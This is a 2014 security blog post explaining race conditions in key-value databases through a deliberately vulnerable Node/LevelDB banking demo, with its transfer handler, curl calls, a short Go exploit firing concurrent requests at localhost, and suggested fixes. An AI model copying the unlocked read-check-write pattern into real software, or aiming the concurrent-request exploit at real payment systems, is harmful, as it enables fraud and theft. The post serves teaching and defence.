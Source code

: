 ```yaml
---
date: 2014-06-24 22:35:25 GMT
slug: two-reads-dont-make-a-write
tags: security, node.js
title: Two Reads Don't Make a Write
author: Tom Steele
type: text
---
```


Database race conditions are hard to identify and tricky to exploit, but if an attacker is able to leverage this weakeness, the results can be devastating. [Flexcoin](http://flexcoin.com/) had such a weakness in their application, and allowed an attacker to steal enough bitcoins that they were forced to shutdown, more information on this specific situation is available [here](http://hackingdistributed.com/2014/04/06/another-one-bites-the-dust-flexcoin/).

Race conditions can occur no matter what backend solution you choose. Traditional databases support [transactions](http://en.wikipedia.org/wiki/Database_transaction) to prevent them. But most key-value data stores do not have such mechanisms. This is well known, and in many cases is not deal breaker. But it is important to understand when this should be a requirement, or at least when a compensating control is needed. 

Key-value data stores are a large part of modern application development, and growing in popularity. Solutions like Riak, LevelDB, MongoDB, etc. give you increased flexibility and development efficiency, as well as other benefits which have been covered and discussed extensively. With the benefits also come weaknesses, or maybe a better word is differences.

Rather than writing a long explanation centered around a theoretical situation, I decided to write a tiny application to quickly demonstrate this vulnerability. Enter [raceybank](https://github.com/tomsteele/raceybank), a little Node application with a LevelDB backend. This is incredibly simple and somewhat silly, but it demonstrates the issue well.

We're going to walk through the application now. There are instructions in the repository so you can follow along at home. 

Consider we have a banking application, or maybe we have a store that gives a user credits. Whatever. Let's look at our user model.

~~~~~javascript
module.exports = new dulcimer.Model({
    id: {
        derive: function() {
            return this.key.split('!')[1];
        }
    },
    name: {
        type: 'string',
        required: true
    },
    money: {
        type: 'integer',
        required: true
    }
}, { db: db, name: 'user'});
~~~~~

Pretty straight forward, we have a user with a unique id, a name, and some amount of money. Our application consists of two routes, `GET /users` and `POST /transfer`. Here is the transfer route.


~~~~~javascript
function handleTransfer(request, reply) {
    var to = null;
    var from = null;
    var amount = request.payload.amount;

    if (request.payload.to === request.payload.from) {
        return reply().code(400);
    }

    async.parallel([function (cb) {
        User.get(request.payload.to, function (err, user) {
            if (err) {
                return cb(err);
            }
            to = user;
            return cb();
        });
    }, function (cb) {
        User.get(request.payload.from, function (err, user) {
            if (err) {
                return cb(err);
            }
            from = user;
            return cb();
        });
    }], foundUsers);

    function foundUsers(err) {
        // Something happened or we didnt find the users.
        if (err || !to || !from) {
            return reply().code(404);
        }

        // Validate from has the funds for this transfer.
        if (from.money < amount) {
            return reply().code(403);
        }

        // Transfer the money.
        from.money -= amount;
        to.money += amount;
        async.parallel([function (cb) {
            from.save(function (err) {
                cb(err);
            });
        }, function (cb) {
            to.save(function (err) {
                cb(err);
            });
        }], saveUsers);
    }

    function saveUsers(err) {
        if (err) {
            return reply().code(500);
        }
        return reply();
    }
}
~~~~~

It's a bit of code, but the gist is we read two users from the database, validate the transferrer has the requested amount of funds, decrement from transferrer, increment transferee's funds, and save the user records. Once we have the application started, we can see that some seed data has been initialized by calling `GET /users` (note: you would never want to return this much information, but this is a demo).

~~~~~shell
$ curl http://localhost:3000/users | python -mjson.tool
[
    {
        "id": "0000000001",
        "money": 100,
        "name": "Alice"
    },
    {
        "id": "0000000002",
        "money": 100,
        "name": "Bob"
    },
    {
        "id": "0000000003",
        "money": 100,
        "name": "Carol"
    }
]
~~~~~

Alice, Bob, and Carol all have 100 something, let's call it dollars, resulting in a total economy of $300. We'll transfer $100 from Alice to Bob, and then attempt to transfer $100 from Alice to Carol.

~~~~~shell
$ curl -i http://localhost:3000/transfer -X POST -d '{"from": "0000000001", "to": "0000000002", "amount": 100}' -H 'Content-Type: application/json'
HTTP/1.1 200 OK
~~~~~

~~~~~shell
$ curl -i http://localhost:3000/transfer -X POST -d '{"from": "0000000001", "to": "0000000003", "amount": 100}' -H 'Content-Type: application/json'
HTTP/1.1 403 Forbidden
~~~~~

The first request succeeds and the second fails because Alice does not have enough money. But we made these requests sequentially, what happens if we make these requests concurrently? I'll show you! Here is some quick Go code to make the magic happen. All it does is make the same two requests, but concurrently in two goroutines.

~~~~~go
package main

import (
    "bytes"
    "log"
    "net/http"
    "sync"
)

func main() {
    req1 := []byte(`{"to": "0000000002", "from": "0000000001", "amount": 100.00}`)
    req2 := []byte(`{"to": "0000000003", "from": "0000000001", "amount": 100.00}`)
    wait := &sync.WaitGroup{}
    wait.Add(2)
    go func(body []byte) {
        defer wait.Done()
        http.Post("http://localhost:3000/transfer", "application/json", bytes.NewReader(body))
    }(req1)
    go func(body []byte) {
        defer wait.Done()
        http.Post("http://localhost:3000/transfer", "application/json", bytes.NewReader(body))
    }(req2)

    wait.Wait()
    log.Println("done")
}
~~~~~

We restart the application to reset our data and run our exploit.

~~~~~shell
$ ./exploit-osx
2014/06/24 15:03:19 done
~~~~~

Check out users balances.

~~~~~shell
curl http://localhost:3000/users | python -mjson.tool
[
    {
        "id": "0000000001",
        "money": 0,
        "name": "Alice"
    },
    {
        "id": "0000000002",
        "money": 200,
        "name": "Bob"
    },
    {
        "id": "0000000003",
        "money": 200,
        "name": "Carol"
    }
]
~~~~~

Carol and Bob both have $200. WE JUST CREATED MONEY. No we're not Midas, we're simply exploiting a race condition. Alice is read twice before the write. So each request instance believes they have the required funds.

This is a traditional example and often used as the argument for why transactions are important. In a real bank there would be much stricter control and fraud prevention to prevent this from going unnoticed. But not everyone is a big bank with unlimited resources, and not every situation will deal with dollars and cents. This could be occur in something of relatively low importance, but still be a bug that could drive you to madness.

How can we prevent this? To me, this depends on the nature of the data being handled. If it's crucial financial data I would opt for a traditional database (there are NoSQL solutions that support transactions as well). If not, or you're already heavily invested in a existing solution, you can apply a lock/mutex around the troublesome operation. A library in Node land to solve this is [lock](https://github.com/dominictarr/lock). There are other mitigations, and some databases offer recommendations or built in mechanisms; investigate what works for you, look for this pattern, and test for it.

